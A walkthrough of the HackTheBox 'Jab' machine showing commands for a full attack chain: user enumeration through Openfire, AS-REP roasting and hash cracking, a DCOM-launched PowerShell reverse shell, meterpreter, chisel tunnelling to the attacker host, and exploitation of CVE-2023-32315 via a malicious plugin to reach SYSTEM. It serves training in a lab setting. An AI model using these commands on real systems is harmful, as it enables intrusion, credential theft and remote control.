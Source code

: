 ```yaml
---
date: 2025-03-08
categories: [CTF, HTB]
title: "HTB - Jab"
tags: ['hashcat', 'impacket', 'kerberos', 'nmap', 'powershell', 'privilege escalation', 'python', 'rce', 'smb', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Jab - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Jab

```bash
sudo nmap -sUV -T4 -F --version-intensity 0 10.129.251.236
```

![image1](../resources/bc9d0f4b3fd644d39d0eb7022e3df136.png)

```bash
nmap 10.129.251.236 -p-
```

![image2](../resources/ed0d146929424972a3d7e695515e424a.png)

```bash
nmap 10.129.251.236 -A
```

![image3](../resources/c1ca68037a894afd80691629c2d11085.png)

- Add jab.htb to /etc/hosts

- From the NMAP scan we can see Openfire is running

- Download the Openfire client - Spark


![image4](../resources/b66d2f59fe75416c9efdf16bc4d6a256.png)

- Tick "Login anonymously"
(You can click on the arrow next to Username to get a randomly generated username - if you want to enter chatrooms or send messages)

- Enter the domain name

- Click on Advanced

![image5](../resources/7204fc3cc02842979b7096baebba312c.png)
- Untick Auto Discovery and enter the IP and port of the server

- Disable Encryption:

![image6](../resources/65f522276c594601bbb48afcd69a2861.png)

- Under Certificates tick Accept self-signed

![image7](../resources/c2b060cb0a9c44e1a7fd9d7cccfc6751.png)

- Click Okay and Login

- There isn't much here apart from two conference rooms that we can't join:

![image8](../resources/981a7a0f84b34a7ea13ccbb51e07cb95.png)

- Let's try and enumerate for users - Using the wilcard **\***

![image9](../resources/6e06c97db55e47bf8584d522b7f6a5ff.png)


![image10](../resources/6ac4476769cb40a1a362c5c7520df590.png)

- We get a massive list of Openfire users (on the domain)

- We need to add all these usernames into a list

- The way I found was to screenshot a portion of the Usernames field - paste into Paint
Then use <https://brandfolder.com/workbench/extract-text-from-image> to extract the text and paste into the username list

- ASRepRoasting using the users wordlist we made from the Openfire usernames:

```bash
impacket-GetNPUsers jab.htb/ -users users.txt -no-pass -dc-ip 10.129.251.236

```

![image11](../resources/fc708009ffbb43d09617a115837b099a.png)

- Crack the hash using hashcat:

```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```

![image12](../resources/e986c444ed9143ccbdfc7ad53b12e92d.png)

- We have credentials:
**jmontgomery : Midnight_121**

- Check the credentials for SMB:

```bash
crackmapexec smb 10.129.251.236 -u "jmontgomery" -p "Midnight_121"

```

![image13](../resources/3f7b988f24334a1c96b9a5ed3acd1484.png)

- Use these credentials to log back into the Openfire Spark client

- Looking at the conference rooms - There's a new conference room that we can join:

![image14](../resources/1c08ead060414f22919ccc2e73f79dc9.png)


![image15](../resources/770e9d55fa504b4d9aac94cbad66f58b.png)

- The penetration testers ran GetUserSPN to get a TGS ticket for a service
- And they found one for svc_openfire

**svc_openfire** : **!@#$%^&*(1qazxsw**
- 
- Looks like no one tested it and the password is still in play:

![image16](../resources/1103fc7caa8c409196f43865a7d0841d.png)

- From the SMB enum we can see that **svc_openfire is part of the DCOM Users group**:

![image17](../resources/d348352371524ecea7d0e25dbda844c4.png)

- Trying to log in through PS, smbexec, psexec, wmiexec or any of those will result in failure - Access Denied


![image18](../resources/da8f51073ada4de588108fb6dd14b181.png)

- But using the DCOM protocol and the svc_openfire credentials:

```bash
impacket-dcomexec -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.129.156.10 'cmd.exe /c powershell -e <BASE64_rev_shell>' -silentcommand

```

![image19](../resources/9e6acc8ebea4486ab3b037039117f962.png)

- We get a shell:

![image20](../resources/df9fe015304c436ea7de23b4dbde636f.png)


![image21](../resources/1a0528b218f5468b83925e16d2b7cc93.png)

- Upload meterpreter rev.exe and run to upgrade to a meterpreter shell:

![image22](../resources/020173ba66024b6289d9625d46d15e6c.png)

<u>Openfire Admin console runs on port 9090</u>

```bash
netstat -ano

```

![image23](../resources/8f6db7431c6d4de889dbee3f940c5d46.png)
- We see the admin console running locally on port 9090

- Upload chisel to the target
  - On Kali:

```bash
chisel server -p 8888 --reverse
```
- On target:

```bash
.\chisel.exe client <kali_ip>:8888 R:socks

```
- On Kali - Enable foxyproxy

![image24](../resources/fccaeebb8b0d405693794a002e6d545d.png)

- Go to <http://localhost:9090> - Log in with svc_openfire credentials

![image25](../resources/8c1418c4d3db4dc39c82adb91cb24183.png)


![image26](../resources/c6914b42cc8a497190df105e93669667.png)

**<u>CVE-2023-32315</u>**

```bash
git clone <https://github.com/miko550/CVE-2023-32315.git>

```
- **If we didn't have a user, do the following:**

```bash
cd CVE-2023-32315
pip3 install -r requirements.txt
python3 CVE-2023-32315.py -t http://127.0.0.1:9090

```

![image27](../resources/2c2a1f67a3f54c34882a14b21297f682.png)

- But we can use the svc_openfire user with:
**!@#$%^&*(1qazxsw*

- Go to the Plugins page
- Upload the plugin (openfire-management-tool-plugin.jar ) found in the git repo

![image28](../resources/93af9ee681b6489ba11b1de087e1841e.png)


![image29](../resources/35f401a8e6ac4c5a95c0c0ee79efaf84.png)
- Successfully uploaded and the password is 123
- Go to Server -\> Server Settings -\> Management Tool
(If you take too long, you need to reupload the plugin)


![image30](../resources/067d259d512e405f88f00673f73aee35.png)
- Enter the password 123

- Click on File system

![image31](../resources/8b79f7f37b384e1185a4e4c582f0b6f4.png)

- Go to:
C:/Users/Administrator/Desktop


![image32](../resources/77b24b6ade9a40c5a602853d7a379c58.png)

- Click edit on root.txt

- Got the root flag:

![image33](../resources/193ebab5bb0e4fd18cb1ad86683c7806.png)

- We can also execute system commands to get a shell as SYSTEM:

![image34](../resources/e7fef8d434494ea1afccb4c3b4744c88.png)